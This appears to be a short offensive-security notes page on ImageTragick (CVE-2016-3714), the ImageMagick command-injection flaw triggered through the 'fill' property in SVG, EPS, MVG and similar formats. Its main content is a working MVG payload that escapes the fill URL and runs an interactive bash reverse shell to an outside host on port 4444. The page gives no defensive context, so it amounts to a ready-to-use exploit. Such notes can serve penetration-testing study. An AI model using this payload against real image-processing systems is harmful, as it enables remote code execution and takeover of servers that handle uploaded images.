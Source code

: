 ```yaml
---
icon: hat-wizard
---
```


# ImageMagick

{% hint style="danger" %}
### <mark style="color:red;">`ImageTragick-CVE-2016-3714`</mark>

* <mark style="color:purple;">The exploit involves injecting arbitrary shell commands via the</mark> <mark style="color:orange;">**`fill`**</mark> <mark style="color:purple;">property.</mark>
* <mark style="color:purple;">The vulnerability primarily affects the following formats:</mark><mark style="color:orange;">**`SVG`**</mark><mark style="color:purple;">**,**</mark><mark style="color:orange;">**`EPS`**</mark><mark style="color:purple;">**,**</mark><mark style="color:orange;">**`MVG`**</mark><mark style="color:purple;">**,**</mark><mark style="color:orange;">**`PDF`**</mark><mark style="color:purple;">**,**</mark><mark style="color:orange;">**`XML`**</mark>&#x20;

{% code overflow="wrap" %}
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://1.1.1.1/tokyo.jpg"|bash -i >& /dev/tcp/10.10.16.5/4444 0>&1;echo "yay)'
pop graphic-context
```
{% endcode %}
{% endhint %}

